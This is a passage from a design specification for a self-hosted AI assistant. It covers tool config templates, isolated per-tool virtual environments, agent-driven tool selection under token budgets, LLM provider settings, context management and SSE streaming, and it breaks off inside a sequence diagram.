4. **Generate and print config template** (FR-6.25):
   - Analyzes tool to extract required configuration fields
   - Detects environment variables referenced in tool code
   - Generates YAML config block with tool id, type, and config fields
   - Prints formatted template to terminal with inline comments
5. **Optional auto-configuration** (v1.1+, FR-6.26):
   - With `--auto-configure` flag, append config to config.yaml
   - Validate no duplicate tool IDs before appending
   - Show confirmation message with file path

**Enhanced User Workflow Example**:

```bash
$ ai-assistant add-tool finance_tool --template package
✓ Tool created: ~/.ai_assistant/tools/finance_tool/
✓ Dependencies: requests, yfinance

📋 Add this configuration to config.yaml:

tools:
  tools:
    - id: finance-api
      type: finance_tool
      enabled: true
      config:
        api_key_env: FINANCE_API_KEY  # Set this environment variable
        base_url: https://api.example.com
        rate_limit: 100

⚠  Environment Variables Required:
  - FINANCE_API_KEY: API key for finance service

📖 Next Steps:
  1. Copy the config above to your config.yaml file
  2. Set environment variable: export FINANCE_API_KEY="your-key"
  3. Reload tools: curl -X POST http://localhost:8000/api/v1/tools/reload
  4. Verify: ai-assistant list-tools

$ # User copies config to config.yaml
$ export FINANCE_API_KEY="abc123"

$ ai-assistant reload-tools
✓ Discovered tool: finance_tool
✓ Loaded config: finance-api (type: finance_tool)
✓ Tool ready for use
```

**Config Template Generation Logic**:

1. **Tool Analysis**:
   - Parse tool Python file for `os.getenv()` calls to detect required env vars
   - Extract tool description from docstring
   - Identify common config patterns (API keys, URLs, timeouts)

2. **Template Structure**:
   ```yaml
   tools:
     tools:
       - id: <tool-name>-1  # Auto-generated unique ID
         type: <tool-type>  # Matches tool directory/file name
         enabled: true
         config:
           # Environment variables (detected from code)
           <env_var>_env: <ENV_VAR_NAME>
           # Common config fields (tool-specific)
           <field>: <default_value>
   ```

3. **Smart Defaults**:
   - `id`: Tool name + `-1` suffix for first instance
   - `type`: Tool directory or file name (without .py)
   - `enabled`: true (user can change)
   - `config`: Tool-specific fields with sensible defaults

4. **v1.1+ Auto-Configure** (with `--auto-configure` flag):
   - Load existing config.yaml
   - Check for duplicate tool IDs (fail if exists)
   - Append new tool config to `tools.tools` array
   - Write back to config.yaml with formatting preserved
   - Print confirmation: "✓ Added to config.yaml"

**Error Handling**:
- Missing config.yaml: Suggest creating from config.example.yaml
- Duplicate tool ID with `--auto-configure`: Fail with error message
- Invalid tool structure: Show validation errors during creation
- No environment variables detected: Print template without env var section

#### Tool Dependency Management (Phased Implementation)

**Design Principle**: Avoid global pip installs; all tool dependencies remain isolated to prevent Python environment pollution.

**Phase 1 - Package Tools (V1.0)**:
- Tool type: Directory with `pyproject.toml` or `requirements.txt`
- Dependency isolation: Lazy venv creation per tool with atomic error recovery
- Process:
  1. User runs `ai-assistant add-tool finance_tool --template package`
  2. On first load, Tool Loader creates `.venv` inside tool directory
  3. Uses `uv` for fast isolated installation (50-100x faster than pip)
  4. Tool imports happen within venv context (sys.path manipulation)
  5. Venv is git-ignored, recreated if deleted
- Benefits: Standard Python practice, zero conflicts, predictable
- Structure: Tool directory contains pyproject.toml (for dependencies), .venv directory (auto-created and git-ignored), __init__.py, main.py implementation, and README.md documentation

**Venv Creation Error Recovery** (Phase 1):

Atomic venv creation prevents corrupted environments from network failures, disk space exhaustion, or interrupted installations.

**Creation States** (stored in `~/.ai_assistant/data/tool_metadata.json`):
- `NOT_CREATED`: Tool registered but venv not yet initialized
- `CREATING`: Venv creation in progress (temp directory exists)
- `READY`: Venv created and validated successfully
- `FAILED`: Venv creation failed (temp directory cleaned up)
- `CORRUPTED`: Venv exists but integrity check failed

**Atomic Creation Workflow**:


```mermaid
sequenceDiagram
    participant TL as Tool Loader
    participant FS as File System
    participant UV as uv Package Manager
    participant MD as Tool Metadata

    Note over TL: Tool requested by automation
    TL->>MD: Check venv_status for tool
    
    alt status == READY
        TL->>TL: Verify integrity (check Python exe)
        alt integrity OK
            TL->>TL: Use existing venv
        else integrity FAILED
            MD->>MD: Set status = CORRUPTED
            TL->>TL: Proceed to creation
        end
    else status == NOT_CREATED or FAILED or CORRUPTED
        MD->>MD: Set status = CREATING
        TL->>FS: Create temp dir: .venv.tmp.{timestamp}
        TL->>UV: Run: uv venv .venv.tmp.{timestamp}
        
        alt uv venv success
            TL->>UV: Run: uv pip install -r requirements.txt
            alt install success
                TL->>FS: Atomic rename: .venv.tmp.{timestamp} → .venv
                MD->>MD: Set status = READY
                TL->>TL: Tool ready for use
            else install FAILED (network/disk)
                TL->>FS: Delete .venv.tmp.{timestamp}
                MD->>MD: Set status = FAILED, increment retry_count
                alt retry_count < 3
                    TL->>TL: Wait exponential backoff: min(0.1 * 2^retry, 5.0)s
                    TL->>TL: Retry from start
                else retry exhausted
                    TL->>TL: Log error, mark tool unavailable
                    TL->>TL: Return error to LLM: "Tool unavailable due to venv creation failure"
                end
            end
        else uv venv FAILED
            TL->>FS: Delete .venv.tmp.{timestamp}
            MD->>MD: Set status = FAILED, increment retry_count
            TL->>TL: Retry or fail (same logic as install failure)
        end
    else status == CREATING
        Note over TL: Previous creation interrupted (crash/kill)
        TL->>FS: Check if .venv.tmp.{any} exists
        alt temp dir exists
            TL->>FS: Delete stale .venv.tmp.*
        end
        MD->>MD: Set status = FAILED
        TL->>TL: Proceed to creation (retry logic)
    end
```

**Integrity Verification**:

On tool load, system verifies venv health:
1. Check `.venv/bin/python` (or `.venv/Scripts/python.exe` on Windows) exists and is executable
2. Verify `.venv/pyvenv.cfg` exists (standard venv marker)
3. Test import of tool's main module (catches missing dependencies)
4. If any check fails, mark as `CORRUPTED` and trigger recreation

**Retry Logic**:
- **Backoff formula**: `wait_time = min(0.1 * 2^retry_count, 5.0)` seconds
- **Max retries**: 3 attempts
- **Total timeout**: ~15 seconds maximum (0.1s + 0.2s + 0.4s + install time)
- **Failures tracked per tool**: Reset retry_count on successful creation

**Error Handling**:

| Error Scenario | Detection | Recovery Action |
|---|---|---|
| Network failure during install | `uv pip install` exit code ≠ 0 | Retry with exponential backoff |
| Disk space exhaustion | `OSError: [Errno 28] No space` | Delete temp dir, log error, mark FAILED |
| Process killed mid-creation | Tool load finds status=CREATING | Delete stale temp dir, retry creation |
| Corrupted venv (missing files) | Integrity check fails on load | Mark CORRUPTED, delete .venv, recreate |
| uv not installed | Startup validation (Section 3.2) | Fail fast with installation instructions |
| Invalid pyproject.toml | `uv` parse error during install | Log error, mark FAILED, notify user |

**Manual Recovery Command**:

```bash
# User can manually force venv rebuild
ai-assistant rebuild-tool-venv <tool-name>

# Example:
ai-assistant rebuild-tool-venv finance_tool
# Output:
# Deleting existing venv for finance_tool...
# Creating new venv with uv...
# Installing dependencies from pyproject.toml...
# ✓ Venv created successfully
# ✓ Integrity check passed
```

Command implementation:
1. Validates tool exists and is package type
2. Sets status to `NOT_CREATED` (forces full recreation)
3. Deletes `.venv` directory if exists
4. Triggers normal creation workflow with logging
5. Reports success/failure to user

**Tool Metadata Schema** (stored per tool):

```json
{
  "finance_tool": {
    "type": "package",
    "venv_status": "READY",
    "venv_created_at": "2026-01-24T10:30:00Z",
    "venv_last_verified": "2026-01-24T14:15:00Z",
    "retry_count": 0,
    "last_error": null,
    "dependencies_hash": "sha256:abc123..."  // Hash of pyproject.toml to detect changes
  }
}
```

**Dependency Change Detection**:

- On tool load, compute SHA256 hash of `pyproject.toml` content
- Compare with stored `dependencies_hash` in metadata
- If different, mark venv as `CORRUPTED` and trigger recreation
- This ensures venv stays in sync with dependency changes

**Benefits of This Approach**:
1. **Atomic creation**: Tool either works or is clearly broken (no partial state)
2. **Automatic recovery**: Transient failures (network) self-heal via retry
3. **Manual escape hatch**: User can force rebuild if needed
4. **Status visibility**: Clear states aid debugging (logs show CREATING → FAILED)
5. **Crash resilient**: Interrupted creation doesn't leave broken venv
6. **Dependency tracking**: Auto-detects when pyproject.toml changes

**Phase 2 - MCP Adapters (V1.1)**:
- Tool type: Standalone MCP adapter (often from third-party projects)
- Dependency isolation: Subprocess with stdio communication
- Process:
  1. User clones `obsidian-mcp` to `~/.ai_assistant/tools/obsidian_mcp/`
  2. Tool Loader detects MCP adapter via config `type: obsidian_mcp`
  3. Creates isolated subprocess running MCP adapter
  4. Communication via stdin/stdout (Tool Loader sends JSON, adapter responds)
  5. Each tool instance runs in separate process (complete isolation)
- Benefits: Absolute isolation from host Python, tool can have conflicting deps
- Note: MCP adapters should handle their own dependency management (assumed pre-installed or bundled)

**Phase 3 - PEP 723 Single-File Tools (V1.2)**:
- Tool type: Single `.py` file with inline dependency metadata
- Dependency isolation: `uv run` with automatic caching
- Requires: Python 3.11+
- Process:
  1. User downloads or creates single-file tool with PEP 723 header
  2. Tool Loader runs via `uv run researcher.py` in isolated subprocess
  3. `uv` caches dependencies globally but isolated from system
  4. Tool output captured and parsed by Tool Registry
- Format: Single Python file with PEP 723 header comment block specifying requires-python version and dependencies list, followed by standard Python imports and tool implementation
- Benefits: Simplest for single-file tools, no manual venv management
- Caveat: Requires Python 3.11+, `uv` installation

**Dependency Conflict Resolution**:
- Built-in tools: Single shared venv at `backend/src/tools/.venv` (managed by main project)
- Package tools: Per-tool venv isolation → conflicts impossible
- MCP adapters: Subprocess isolation -> dependencies don't interact
- Single-file tools: `uv` cache isolation -> conflicts minimal

**Tooling Requirements**:
- **uv** package manager (required) - Fast, reproducible installs for per-tool venvs
- **Python 3.10+** for Phase 1 & 2 (v1.0-v1.1)
- **Python 3.11+** for Phase 3 (v1.2) - PEP 723 support

**Startup Validation**:
- System validates `uv` availability on startup (see Section 3.2)
- Fails fast with installation instructions if not found
- No fallback to pip (ensures consistent behavior across environments)

#### Agent-Driven Tool Selection for Token Budget Management

This section defines how the system uses the AI agent itself to dynamically select tools for each context window, eliminating manual tool curation and adapting to evolving task needs.

**Problem Statement**:

With 20+ tools available (8 built-in + user tools), tool definitions can consume 1000-4000 tokens before any conversation. For Ollama with 4K context window, this severely limits conversation history.

**Previous Approach Limitations**:
- Static `tools_available` field requires manual curation per automation
- Cannot adapt to task evolution (email triage discovers it needs git tool)
- User burden to maintain tool lists as new tools are added
- All-or-nothing: either use all tools (too many tokens) or manually specify subset

**Agent-Driven Solution Strategy**:

1. **Planning Phase**: Separate LLM call where agent analyzes task and selects required tools
2. **Per-Context-Window Re-evaluation**: Agent can request different tools as task evolves
3. **Token Budget Enforcement**: Only include agent-selected tools within max_tool_definition_tokens
4. **Graceful Degradation**: If agent requests unavailable tool, log and provide feedback (don't fail)
5. **Optional Hints**: tools_available field provides starting suggestions but agent can override

**Agent Planning Phase Workflow**:


```mermaid
sequenceDiagram
    participant User
    participant System
    participant PlanningAgent as Planning Agent<br/>(LLM)
    participant ExecutionAgent as Execution Agent<br/>(LLM)
    participant ToolRegistry
    
    User->>System: Trigger automation or chat
    System->>ToolRegistry: Get all available tool names + descriptions<br/>(lightweight, ~20 tokens total)
    ToolRegistry-->>System: ["gmail_search", "shell_execute", ...]
    
    System->>PlanningAgent: Planning Phase LLM Call<br/>Context: task description, tool list, hints
    Note over PlanningAgent: Analyzes task requirements<br/>Selects needed tools within budget
    PlanningAgent-->>System: Selected tools: ["gmail_search", "gmail_send"]<br/>Reasoning: "Need to search and respond to emails"
    
    System->>ToolRegistry: Get full definitions for selected tools
    ToolRegistry-->>System: Full JSON schemas (60 + 110 = 170 tokens)
    
    System->>System: Validate token budget<br/>170 tokens < 500 max ✅
    
    System->>ExecutionAgent: Execution Phase LLM Call<br/>Context: task + selected tool definitions + history
    ExecutionAgent->>ExecutionAgent: Executes task with available tools
    
    alt Agent requests unauthorized tool
        ExecutionAgent->>System: Function call: shell_execute("git status")
        System->>System: Check if shell_execute in selected tools ❌
        System->>System: Log attempt: automation_id, tool_name, timestamp
        System-->>ExecutionAgent: Error response: "Tool 'shell_execute' not available.<br/>You selected: gmail_search, gmail_send.<br/>Reason: Not included in planning phase."
        ExecutionAgent->>PlanningAgent: Re-plan needed? (next context window)
    end
    
    ExecutionAgent-->>System: Task complete
    System-->>User: Results + tool usage metadata
```

**Token Measurement Implementation**:

Tool Registry tracks token counts on startup:

```python
# Tool definition example (JSON sent to LLM)
tool_def = {
    \"name\": \"gmail_search\",
    \"description\": \"Search Gmail messages by query...\",
    \"parameters\": {
        \"type\": \"object\",
        \"properties\": {
            \"query\": {\"type\": \"string\", \"description\": \"...\"},
            \"max_results\": {\"type\": \"integer\"}
        },
        \"required\": [\"query\"]
    }
}

# Measured tokens: ~85 tokens per tool (varies by complexity)
```

**Example Tool Token Costs**:

| Tool | Description Length | Parameters | Estimated Tokens |
|------|-------------------|------------|------------------|
| gmail_search | 1 sentence | 2 simple | ~60 tokens |
| gmail_send | 2 sentences | 4 params (body, to, subject, attachments) | ~110 tokens |
| shell_execute | 3 sentences + safety warnings | 3 params + examples | ~150 tokens |
| file_read | 1 sentence | 1 param | ~40 tokens |
| git_status | 1 sentence | 2 params (repo_path, branch) | ~70 tokens |
| obsidian_search | 2 sentences | 3 params + metadata | ~95 tokens |
| finance_get_quote | 1 sentence | 1 param | ~45 tokens |
| kb_store_procedure | 2 sentences | 3 params | ~85 tokens |

**Total for 8 tools**: ~655 tokens  
**Total for 20 tools**: ~1,600 tokens (exceeds Ollama budget of 500)

**Planning Phase Implementation**:

The planning agent receives a lightweight prompt (~100 tokens):

```
You are a planning agent. Analyze the task and select which tools you need.

Task: "Daily Email Triage - archive spam, label urgent messages"

Available tools (names only):
- gmail_search, gmail_send, gmail_apply_label, gmail_archive
- shell_execute, git_status, file_read, file_write
- obsidian_search, obsidian_create, kb_store_procedure, kb_retrieve_procedure
- finance_get_quote, calendar_create_event, slack_send_message
- weather_get_forecast (20 tools total)

Optional hints (from automation config): ["gmail_search", "gmail_send", "gmail_apply_label"]

Token budget: 500 tokens max for tool definitions

Select tools needed for this task. Output JSON:
{
  "selected_tools": ["tool1", "tool2", ...],
  "reasoning": "Brief explanation"
}
```

**Agent Response**:

```json
{
  "selected_tools": ["gmail_search", "gmail_apply_label", "gmail_archive"],
  "reasoning": "Need to search for spam/urgent emails, apply labels to urgent ones, and archive spam. Don't need gmail_send since task is triage only."
}
```

**System validates**:
- 3 tools selected: 60 + 75 + 55 = 190 tokens ✅ Under 500 budget
- Load full definitions for these 3 tools only
- Pass to execution agent with task context

**Example: Task Evolution Requiring Re-planning**:

```
Context Window 1:
Task: "Email triage"
Agent selects: [gmail_search, gmail_apply_label]
Execution: Finds urgent email from customer about broken deployment

Context Window 2 (new turn):
Agent realizes: "I need to check git repository status to help with deployment issue"
Agent requests: git_status() tool
System response: "Tool 'git_status' not available. Selected tools: gmail_search, gmail_apply_label."

Context Window 3 (re-planning trigger):
System: Sends lightweight planning prompt again
Planning agent: Selects [gmail_search, gmail_send, git_status, shell_execute]
Reasoning: "Discovered deployment issue, need git and shell tools now"
System: Loads 4 tool definitions (60 + 110 + 70 + 150 = 390 tokens) ✅
Execution continues: Agent can now investigate deployment
```

**Example: Unauthorized Tool Access (Graceful Degradation)**:

```
Scenario: Agent requests tool not selected during planning

Execution agent: Calls finance_get_quote("AAPL")

System checks: 
  - Is "finance_get_quote" in selected_tools list? ❌ No
  - Is this tool available in registry? ✅ Yes (just not selected)

System logs:
  {
    "event": "unauthorized_tool_access",
    "automation_id": 123,
    "activity_id": 456,
    "tool_name": "finance_get_quote",
    "selected_tools": ["gmail_search", "gmail_apply_label"],
    "timestamp": "2026-01-24T10:30:00Z"
  }

System response to agent:
  {
    "error": "ToolNotAvailable",
    "message": "Tool 'finance_get_quote' is not available in current context.",
    "available_tools": ["gmail_search", "gmail_apply_label"],
    "suggestion": "If you need different tools, explain why and I can trigger re-planning."
  }

Agent adapts:
  "I cannot check stock quotes as that tool is not available. I'll focus on the email triage task with available tools."
```

**Configuration**:

Per-provider token budgets in `config.yaml`:

```yaml
llm:
  providers:
    ollama:
      max_tool_definition_tokens: 500  # Strict budget for 4K context
      
    openai:
      max_tool_definition_tokens: 2000  # More generous for 128K context
      
    anthropic:
      max_tool_definition_tokens: 2000  # Claude 200K context
```

**Monitoring & Alerts**:

Log planning phase and tool selection events:

```
INFO [PlanningAgent] Tool selection for automation 123:
  - Task: "Daily Email Triage"
  - Hints: ["gmail_search", "gmail_send", "gmail_apply_label"]
  - Selected: ["gmail_search", "gmail_apply_label", "gmail_archive"]
  - Token budget: 190/500 tokens (38%)
  - Reasoning: "Triage only - no sending needed"

WARN [ExecutionAgent] Unauthorized tool access attempt:
  - Activity: 456
  - Tool requested: "finance_get_quote"
  - Selected tools: ["gmail_search", "gmail_apply_label"]
  - Action: Returned error to agent, logged attempt

INFO [PlanningAgent] Re-planning triggered (context window 3):
  - Previous tools: ["gmail_search", "gmail_apply_label"]
  - New tools: ["gmail_search", "gmail_send", "git_status", "shell_execute"]
  - Token budget: 390/500 tokens (78%)
  - Reason: "Task evolved - discovered deployment issue"
```

**Token Usage Metadata** (stored in activities.metadata):

```json
{
  "planning_phase": {
    "tools_requested": ["gmail_search", "gmail_apply_label", "gmail_archive"],
    "tools_token_count": 190,
    "reasoning": "Triage only - no sending needed"
  },
  "tool_access_violations": [
    {
      "tool_name": "finance_get_quote",
      "timestamp": "2026-01-24T10:30:00Z",
      "agent_reasoning": "Checking stock prices for portfolio automation"
    }
  ],
  "replanning_count": 0
}
```

**Benefits**:

✅ **Ollama usability**: Fits 20+ tools in 4K context window  
✅ **No manual curation**: Agent selects tools automatically  
✅ **Adapts to evolution**: Re-plans when task needs change  
✅ **Graceful errors**: Doesn't fail on unauthorized access  
✅ **Token efficiency**: Only includes needed tools (often 3-5 instead of 20)  
✅ **User hints**: tools_available provides optional starting suggestions

**Trade-offs**:

❌ **Extra LLM call**: Planning phase adds ~100ms latency + token cost  
❌ **Non-deterministic**: Agent may select different tools each run  
❌ **Token budget violations**: Agent could select too many tools (requires validation)  
❌ **Re-planning overhead**: Task evolution triggers additional planning calls

**Future Enhancements** (v1.1+):

- **Semantic tool selection**: Use embeddings to match tools to automation description
- **User preferences**: Allow marking tools as \"always include\" or \"deprioritize\"
- **Cost optimization**: For paid APIs, balance token cost vs tool availability
- **Tool usage learning**: Track which tools AI actually uses vs includes

#### LLM Provider Configuration
- Phase 1: `uv` package manager (fast, reproducible installs)
- Phase 2: Existing subprocess/communication capability
- Phase 3: Python 3.11+, `uv` availability

#### LLM Provider Configuration

**Design Principle**: Support multiple LLM providers via LangChain abstraction; enable per-automation model selection for optimal performance on specific tasks.

**MVP Supported Providers** (via LangChain):
- **Ollama** (local inference) - Primary provider for user
- **OpenAI** (ChatGPT API)
- **Anthropic** (Claude API)
- Future: Any LangChain LLM class (Cohere, HuggingFace, AWS Bedrock, etc.)

**LLM Configuration Structure** (`backend/src/config/models/llm.py`):
- **default_provider**: Default LLM provider for new automations (e.g., "ollama")
- **default_model**: Default model name for new automations (e.g., "mistral:7b")
- **providers**: Object containing provider-specific configurations:
  - **ollama**: type, base_url, default_model, temperature, top_p, timeout_seconds
  - **openai**: type, api_key_env, organization_env (optional), timeout_seconds
  - **anthropic**: type, api_key_env, timeout_seconds

Note: Per-automation model selection stored in automations table (llm_provider, llm_model fields), not in config.

**Per-Automation Model Selection**:
Each automation specifies its preferred LLM provider and model via database fields:
- **llm_provider**: VARCHAR field storing provider name (e.g., "ollama", "openai", "anthropic")
- **llm_model**: VARCHAR field storing model name (e.g., "mistral:7b", "gpt-4", "claude-3-opus")

This enables:
- Using efficient model (Ollama local) for routine tasks
- Using powerful model (GPT-4, Claude-3) for complex reasoning
- Switching models between automation versions for A/B testing
- Cost optimization by model selection per task

**AI Agent LLM Integration**:
- AI Agent uses LangChain's unified LLM interface
- On automation execution, loads provider/model from automations table
- Instantiates LangChain LLM class based on provider config
- Sends prompts via standard LangChain interface

**MVP Scope Note**:
- Function calling: Deferred to v1.1+ (start with prompt-only automation)
- Structured output parsing: May use simple regex/regex patterns in v1.0

**Future Extensibility**:
- New providers: Add entry to `config.yaml` providers section
- New LangChain classes: No code changes needed, config-driven
- Tool integration: Future v1.1 will add function calling via LangChain tools

#### Context Window Management

**Design Principle**: Manage token budgets carefully for local models with limited VRAM while supporting large context windows for API models.

**Token Budget Constraints**:
- **Ollama (local)**: 4K-8K context window (VRAM-constrained)
- **OpenAI GPT-4**: 128K context window
- **Anthropic Claude**: 200K context window

**Token Budget Allocation** (per LLM request):
Total context consists of: System Prompt + Tool Definitions + Activity History + Current Message + Response Buffer

**Configuration** (`backend/src/config/models/llm.py`):
Each provider has context window settings:
- **max_context_activities**: Number of recent activities to include (10 for Ollama, 50 for API models)
- **max_context_tokens**: Hard token limit reserving space for response (3000 for Ollama, 120000+ for APIs)
- **max_tool_definition_tokens**: Maximum tokens for tool definitions (500 for Ollama, 2000 for API models)
- **context_overflow_strategy**: "summarize" (for local models) or "truncate" (for large context APIs)
- **Summarization settings** (for "summarize" strategy):
  - summarize_threshold: Percentage of budget to trigger summarization (default: 0.7)
  - summary_token_target: Target tokens for summarized history (default: 500)
- **Automation scratchpad**: 
  - enable_scratchpad: Boolean for persistent memory across context windows
  - scratchpad_max_entries: Maximum key-value pairs (default: 50)

**Tool Pruning Strategy**:

Tools are dynamically selected based on automation context to fit within token budget:

1. **Automation-specific tools**: If automation has `tools_available` field (JSON array), only include those tools
2. **Chat mode**: Include all available tools (user can invoke any tool)
3. **Token budget enforcement**: Measure actual tool definition tokens using tiktoken
4. **Fallback pruning**: If tool definitions exceed `max_tool_definition_tokens`, prioritize:
   - Tools explicitly listed in automation's `tools_available`
   - Recently used tools (from last 10 activities)
   - Most frequently used tools (from activity history)
   - Drop remaining tools with warning logged

**Tool Definition Token Measurement**:

On tool load, system measures token count for each tool:

```python
# Example tool definition format for LLM
tool_def = {
    "name": "gmail_search",
    "description": "Search Gmail messages by query string. Returns message IDs, subjects, and snippets.",
    "parameters": {
        "type": "object",
        "properties": {
            "query": {"type": "string", "description": "Gmail search query (e.g., 'from:user@example.com is:unread')"},
            "max_results": {"type": "integer", "description": "Maximum messages to return (default: 10)"}
        },
        "required": ["query"]
    }
}

# Token count: ~85 tokens
```

Tool Registry stores token count per tool on startup:

```python
class ToolRegistry:
    def __init__(self, encoder):
        self.tools = {}  # {tool_name: Tool instance}
        self.tool_token_counts = {}  # {tool_name: int}
        self.encoder = encoder
    
    def register_tool(self, tool):
        self.tools[tool.name] = tool
        # Measure tokens for tool definition
        tool_def_json = json.dumps(tool.to_langchain_format())
        self.tool_token_counts[tool.name] = len(self.encoder.encode(tool_def_json))
```

**Token Tracking with tiktoken**:

**ContextWindowManager Implementation**:
A class that manages token budgets and context assembly with the following components:

**Initialization**:
- Loads provider config (max_activities, max_tokens, overflow_strategy)
- Initializes tiktoken encoder (cl100k_base for Ollama, model-specific for APIs)

**Token Counting**:
- count_tokens() method uses tiktoken to accurately count tokens in text

**Context Building** (build_context method):
- Accepts: system_prompt, tool_definitions, activities, current_message, scratchpad (optional), automation (optional)
- Returns: final_prompt string and token_usage_metadata dict
- Token usage tracking includes: system_prompt_tokens, tool_definitions_tokens (measured), current_message_tokens, activities_tokens, scratchpad_tokens, total_tokens, overflow_applied flag, tools_pruned (bool), tools_included (list)
- If automation provided with tools_available field: filter tool_definitions to only those tools
- Measure tool definitions token count using tiktoken
- If tool_definitions_tokens > max_tool_definition_tokens: apply pruning strategy (prioritize automation tools, recently used, frequently used)
- Calculates available budget for activities after fixed tokens (system + tools + message + 500 reserve for response)
- Adds scratchpad if enabled (for automations)
- Builds activity history with overflow handling
- Assembles final prompt in sections: system prompt, scratchpad (if present), tool definitions, conversation history, current message

**Activity History Building** (_build_activity_history method):
- Limits to max_activities (most recent)
- Tries full history first
- If exceeds budget, applies overflow strategy (summarize or truncate)

**Summarization Strategy** (_summarize_activities method):
- Keeps last 3 activities at full detail (70% of budget)
- Summarizes older activities into single paragraph (30% of budget)
- Summary extraction includes: activity count by type, key outcomes (COMPLETED/FAILED), tools used
- Format: "[Earlier conversation summary]\\n{summary}\\n\\n[Recent messages]\\n{recent_text}"

**Truncation Strategy** (_truncate_activities method):
- Binary search for maximum activities that fit budget
- Progressively removes oldest activities
- Fallback: shows "[Context truncated due to token limit]" if nothing fits

**Formatting Methods**:
- _format_activities: Converts activity list to "Role: Content" format
- _format_scratchpad: Converts key-value dict to bullet list

**Automation Scratchpad Tool**:
A LangChain BaseTool providing persistent memory across context windows for automations:

**Purpose**: Allows AI to store/retrieve notes that persist beyond token limits, stored in activity metadata as JSON

**Operations**:
- write(key, value): Store key-value pair
- read(key): Retrieve value by key
- list_keys(): List all keys
- delete(key): Remove key-value pair

**Implementation**: 
- Extends LangChain BaseTool with activity_id and db_session
- Loads scratchpad from activity metadata on initialization
- _run method executes operations and returns result strings
- _persist method saves scratchpad to database via JSON_SET
- Stored in activities.metadata JSON field under "scratchpad" key

**Token Usage Observability**:

Track token usage at three levels:

1. **Global (by provider + model)**:
Database table `llm_usage_stats` with fields:
- id (INTEGER PRIMARY KEY AUTOINCREMENT)
- provider VARCHAR(50) - e.g., "ollama", "openai", "anthropic"
- model VARCHAR(100) - e.g., "mistral:7b", "gpt-4", "claude-3-opus"
- date (DATE) - Aggregation date
- total_requests INTEGER - Number of LLM calls
- total_prompt_tokens INTEGER - Sum of prompt tokens
- total_completion_tokens INTEGER
- total_tokens INTEGER
- avg_prompt_tokens REAL
- avg_completion_tokens REAL
- created_at TIMESTAMP
- UNIQUE constraint on (provider, model, date)

2. **Per-Conversation (chat sessions)**:
Stored in chat_messages table or activity metadata JSON:
- token_usage object containing:
  - prompt_tokens: Total tokens in prompt
  - completion_tokens: Tokens in LLM response
  - total_tokens: Sum of prompt + completion
  - context_breakdown: Detailed breakdown (system_prompt, tool_definitions, activity_history, scratchpad, current_message)
  - overflow_applied: Boolean indicating if context was summarized/truncated

3. **Per-Automation Execution**:
Stored in automation activity metadata JSON:
- token_usage object containing:
  - total_requests: Multiple LLM calls in one automation
  - total_prompt_tokens: Aggregate across all requests
  - total_completion_tokens: Aggregate across all requests
  - total_tokens: Sum of all tokens
  - requests: Array of per-request breakdown (prompt, completion, overflow status)

**Observability Dashboard** (future enhancement):
- Token usage trend over time (by provider)
- Cost estimation (for API providers)
- Overflow frequency (indicator of context pressure)
- Average tokens per automation type
- Scratchpad utilization metrics

#### HTTP Streaming Response Handling

**Design Principle**: Use HTTP streaming for MVP simplicity, avoiding WebSocket complexity while still providing responsive user experience.

**Streaming Protocol**:
- **Technology**: HTTP chunked transfer encoding with Server-Sent Events (SSE) format
- **Endpoint**: `POST /api/v1/chat/stream`
- **Response**: `Content-Type: text/event-stream`

**Backend Implementation** (`backend/src/controllers/v1/chat.py`):
FastAPI endpoint that streams LLM responses using chunked transfer encoding:

**Endpoint**: POST /api/v1/chat/stream
**Response**: Content-Type: text/event-stream

**Implementation Flow**:
1. Create activity record with user_message type
2. Stream response chunks from llm_service.stream() async generator
3. For each chunk:
   - Append to full_response accumulator
   - Yield SSE-formatted message: "data: {json}\n\n" with chunk and activity_id
4. After streaming completes:
   - Update activity with complete llm_response and COMPLETED status
   - Send completion event with done: true flag
5. Return StreamingResponse with:
   - generate() async generator
   - media_type: "text/event-stream"
   - Headers: Cache-Control: no-cache, Connection: keep-alive, X-Accel-Buffering: no (disable nginx buffering)

**Frontend Implementation** (React/Vue example):

**StreamMessage Interface**:
- chunk?: string - Partial response text
- activity_id?: string - Activity ID from backend
- done?: boolean - Stream completion flag
- error?: string - Error message if any

**sendChatMessage Function Flow**:
1. Fetch POST request to /api/v1/chat/stream with message and optional conversation_id
2. Check response.ok, throw error if not 200
3. Get ReadableStream reader and TextDecoder
4. Initialize buffer for incomplete messages and currentResponse accumulator
5. Loop: read chunks from stream
6. Decode chunk bytes to text, append to buffer
7. Split buffer by \n\n (SSE message delimiter)
8. Keep last incomplete message in buffer
9. For each complete message:
   - Skip if not starting with "data: "
   - Parse JSON from message (slice off "data: " prefix)
   - If error: display and return
   - If chunk: append to currentResponse, update UI incrementally
   - If done: log completion and return
10. Continue until stream ends

**Key Techniques**:
- Buffer management for partial SSE messages
- Incremental UI updates for responsive feel
- Error handling with inline display
- Proper cleanup on stream completion

**Connection Handling**:

| Scenario | Behavior | User Experience |
|----------|----------|----------------|
| **Network drop during stream** | Connection closes, partial response displayed | User sees "Connection lost" banner with "Retry" button |
| **User clicks Retry** | New request sent, streaming starts from beginning | Previous partial response cleared, fresh stream begins |
| **Server error during stream** | Error event sent via SSE, stream terminates | Error message displayed inline |
| **User navigates away** | AbortController cancels fetch, stream closes | No lingering connections |
| **Long response (>1min)** | Connection stays alive, continues streaming | Heartbeat events (`data: {"type": "ping"}\n\n`) every 15s to prevent timeout |
| **Connection idle >30s** | Frontend detects dead connection, closes stream | "Connection timeout" error displayed with "Retry" button |

**SSE Protocol Specification**:

All Server-Sent Events use structured JSON format for consistency and type safety.

**Message Types**:

```typescript
// Heartbeat (sent every 15s by backend)
data: {"type": "ping"}

// Content chunk (LLM response token)
data: {"type": "content", "delta": "Hello"}

// Stream completion (final event)
data: {"type": "done", "activity_id": 123}

// Error event (stream terminates)
data: {"type": "error", "message": "LLM provider timeout", "code": "provider_timeout"}
```

**Backend Responsibilities** (FR-4.12):
- Send heartbeat every 15 seconds during streaming
- Use `asyncio.create_task()` to run heartbeat loop in parallel with LLM streaming
- Cancel heartbeat task when stream completes or errors
- Heartbeat does NOT get stored in database (ephemeral, connection-level only)

**Frontend Responsibilities** (FR-4.13, FR-4.14):
- Parse all SSE messages as JSON
- Ignore `{"type": "ping"}` messages (don't render, don't log)
- Track timestamp of last received message (any type)
- Close connection if `now() - last_message_time > 30s`
- Display "Connection timeout" error with retry button

**Connection Lifecycle**:


```mermaid
sequenceDiagram
    participant Frontend
    participant Backend
    participant LLM
    
    Frontend->>Backend: POST /api/v1/chat (streaming)
    Backend->>Backend: Start heartbeat task (every 15s)
    Backend->>LLM: Stream request
    
    loop Every 15 seconds
